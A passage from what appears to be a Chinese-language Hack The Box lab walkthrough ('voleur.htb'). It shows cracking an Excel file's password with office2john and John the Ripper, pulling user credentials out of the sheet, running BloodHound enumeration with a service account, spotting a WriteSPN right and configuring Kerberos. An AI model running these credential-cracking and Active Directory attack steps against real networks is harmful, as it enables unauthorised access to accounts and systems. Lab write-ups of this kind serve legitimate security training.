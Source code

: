 ```
office2john Access_Review.xlsx > xlsx.hash
john --wordlist=/usr/share/wordlists/rockyou.txt xlsx.hash
```

  
得到 Excel 的密码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2ILKy0oho5qib3ibswMNzr1XRbibebINyacpEcGiba5shwv7aJg95dB9bDX7AX7FFk7qvNxNWZOsSIGcg/640?wx_fmt=png&from=appmsg "null")  
  
  
Excel 里发现多个人员信息，包括姓名，职位，权限，备注信息里有 3 个用户有密码，其中
```
Todd.Wolfe
```

  
用户还被标红并提示已经删除  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2ILKy0oho5qib3ibswMNzr1XRyhWicicfUcYgl7xyjHDmKOsf1Nnw5ibR8vk5KdM5YoFBYGiaB9KKwBN7Yg/640?wx_fmt=png&from=appmsg "null")  
  
### WriteSPN  
  
svc_ldap 用户有 ldap 权限，用它把域信息拖一下  

```
bloodhound-ce-python -u svc_ldap -p 'M...n' -d voleur.htb -dc dc.voleur.htb -c all -ns 10.10.11.76 --zip
```

  
svc_ldap 对 svc_winrm 有
```
WriteSPN
```

  
权限  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2ILKy0oho5qib3ibswMNzr1XR3SJPMBeLBT4vlnicRia2NicBPh9WE1JbRTf4Aa10pDfNKcE3CC9DhEU6Q/640?wx_fmt=png&from=appmsg "null")  
  
  
后面要使用 kerberos 认证，先把配置文件修改如下 
```
vim /etc/krb5.conf
```

  

```
[libdefaults]
    default_realm = VOLEUR.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false
    ticket_lifetime = 24h
    forwardable = true
    rdns = false

[realms]
    VOLEUR.HTB = {
        kdc = DC.voleur.htb
        admin_server = DC.voleur.htb
    }

[domain_realm]
    .voleur.htb = VOLEUR.HTB
    voleur.htb = VOLEUR.HTB
```
